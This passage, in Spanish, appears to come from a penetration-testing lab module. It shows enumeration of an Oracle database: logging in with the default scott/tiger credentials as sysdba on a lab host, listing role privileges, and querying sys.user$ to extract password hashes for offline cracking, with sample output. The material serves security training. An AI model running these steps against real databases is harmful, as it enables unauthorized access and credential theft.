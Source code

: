 #### Oracle RDBMS - Enumeración de la base de datos

  Oracle TNS

```shell-session
xnoxos@htb[/htb]$ sqlplus scott/tiger@10.129.204.235/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Mon Mar 6 11:32:58 2023
Version 21.4.0.0.0

Copyright (c) 1982, 2021, Oracle. All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```

Podemos seguir muchos enfoques una vez que tengamos acceso a una base de datos Oracle. Depende en gran medida de la información que tenemos y de la configuración completa. Sin embargo, no podemos agregar nuevos usuarios ni hacer ninguna modificación. Desde este punto, podríamos recuperar los hash de contraseña del`sys.user$`e intenta descifrarlos fuera de línea. La consulta para esto se vería como la siguiente:

#### Oracle RDBMS - Extraer hash de contraseña

  Oracle TNS

```shell-session
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE
```